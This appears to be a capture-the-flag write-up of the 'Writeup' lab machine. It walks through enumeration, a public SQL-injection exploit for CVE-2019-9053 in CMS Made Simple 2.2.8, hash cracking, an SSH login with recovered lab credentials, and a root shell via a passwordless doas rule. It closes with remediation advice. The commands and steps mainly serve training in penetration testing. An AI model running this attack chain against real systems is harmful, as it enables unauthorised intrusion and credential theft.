

# Writeup CMS Exploitation & Privilege Escalation Walkthrough

This report provides a detailed professional walkthrough of the **Writeup** machine exploitation process.  
It covers enumeration, exploitation of a vulnerable CMS, credential reuse, privilege escalation, and final compromise.

---

## 1. Initial Reconnaissance

We began with an extensive port scan to identify open services and gather version details for potential attack vectors.

```bash
nmap -p- -Pn 10.129.63.103 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.63.103 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.63.103 -v --script vuln -oN nmap_vuln.txt
```


The results showed **HTTP (80)** and **SSH (22)** services. The HTTP service served a CMS-based website, likely vulnerable to misconfigurations or outdated software components.

---

## 2. Web Enumeration

We launched a directory enumeration scan using **FFUF** to identify hidden resources and CMS directories.

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/raft-medium-directories.txt:FUZZ -u http://writeup.htb/FUZZ -e .php,.html -s
```


The enumeration revealed `/cms` and `/admin` panels — potential targets for authentication or code execution.


---

## 3. Identifying the CMS Platform

Upon visiting the `/cms` directory, we confirmed that the site was running **CMS Made Simple**.


To identify the exact version, we fetched the `doc/CHANGELOG.txt` file, which revealed **CMS Made Simple v2.2.8**.


This version was known to be vulnerable to **SQL Injection (CVE-2019-9053)**.

---

## 4. Exploiting CMS Made Simple (CVE-2019-9053)

We used a public Python exploit to extract credentials via blind SQL injection.

Exploit reference:  
🔗 [https://github.com/CH3LL0v/CVE-2019-9053](https://github.com/CH3LL0v/CVE-2019-9053)

Execution:

```bash
python3 exploit.py -u http://writeup.htb/cms/ -p user
```


The exploit successfully dumped hashed credentials from the CMS database.

We then cracked the password using **Hashcat**:

```bash
hashcat -m 20 hashes.txt rockyou.txt
```

Recovered credentials:

```
username: jkr
password: raykayjay9
```

---

## 5. Shell Access via SSH

With the discovered credentials, we connected to the target via SSH:

```bash
ssh jkr@10.129.63.103
```


The authentication succeeded, granting user-level access to the system.

---

## 6. Local Enumeration

We performed a system-wide search for interesting files and privilege escalation paths.

```bash
find / -perm -4000 2>/dev/null
```

Among the results, a binary named **doas** (a lightweight sudo alternative) stood out.



---

## 7. Privilege Escalation via `doas` Misconfiguration

Inspecting the configuration file `/etc/doas.conf` revealed that the `jkr` user could execute commands as root **without a password**.


We leveraged this configuration to spawn a root shell:

```bash
doas /bin/sh
```


This command provided immediate root-level access.

We retrieved the **root flag** from `/root/root.txt`.

---

## 8. Conclusion

This assessment demonstrates a full compromise chain beginning with CMS enumeration, leading to SQL injection exploitation, credential cracking, and privilege escalation.

### Key Findings:
- Outdated CMS Made Simple version (v2.2.8) vulnerable to CVE-2019-9053.  
- Plaintext credential exposure and weak password practices.  
- Misconfigured `doas` utility allowed passwordless root execution.

### Security Recommendations:
- Update all CMS installations to the latest stable release.  
- Implement web application firewalls (WAF) to detect and block SQLi attempts.  
- Enforce strict password complexity and rotation policies.  
- Restrict administrative utilities (such as `doas`) to trusted users only.  
- Conduct periodic vulnerability assessments and patch management reviews.

---
